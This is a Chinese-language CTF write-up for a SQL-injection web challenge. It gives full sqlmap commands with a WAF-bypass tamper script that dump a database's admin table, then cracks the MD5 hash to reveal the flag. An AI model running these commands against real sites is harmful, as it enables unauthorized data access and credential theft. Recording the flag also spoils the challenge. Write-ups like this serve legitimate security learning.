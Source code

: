 题目都提示了 sql 注入，用 sqlmap 跑一跑，但是因为这个站用了 WAF ，需要在 sqlmap 中使用一个过 WAF 的脚本才能注入。

注数据库

```
./sqlmap.py -u "http://101.200.145.44/web6/login.php" --data "username=sss&password=sss" --proxy=socks5://127.0.0.1:1080 --tamper "space2mssqlhash.py" --dbs
```

```
[01:21:32] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5.0.11
[01:21:32] [INFO] fetching database names
[01:21:32] [INFO] fetching number of databases
[01:21:32] [INFO] resumed: 2
[01:21:32] [INFO] resumed: information_schema
[01:21:32] [INFO] resumed: injection
available databases [2]:
[*] information_schema
[*] injection
```

还是 MySQL 数据库，依然两个 database ，肯定是注入 injection ，继续注表。

```
./sqlmap.py -u "http://101.200.145.44/web6/login.php" --data "username=sss&password=sss" --proxy=socks5://127.0.0.1:1080 --tamper "space2mssqlhash.py" -D "injection"  --tables
```

```
Database: injection
[1 table]
+-------+
| admin |
+-------+
```

只有一个表，那我们这次就直接注内容好了。

```
./sqlmap.py -u "http://101.200.145.44/web6/login.php" --data "username=sss&password=sss" --proxy=socks5://127.0.0.1:1080 --tamper "space2mssqlhash.py" -D "injection"  -T "admin" --dump-all
```

```
Database: injection
Table: admin
[1 entry]
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
| 1  | admin    | fef0b74e182f540724e23a83ed92b847 |
+----+----------+----------------------------------+
```

注出来是 md5 加密过的，sqlmap 还自带一些密码本，可以帮忙做一些简单爆破，可惜这个没有爆破出来，最后在网上找了一个 md5 解密网站破解出来，解密结果为 `yinquesiting` ，即为 flag 。
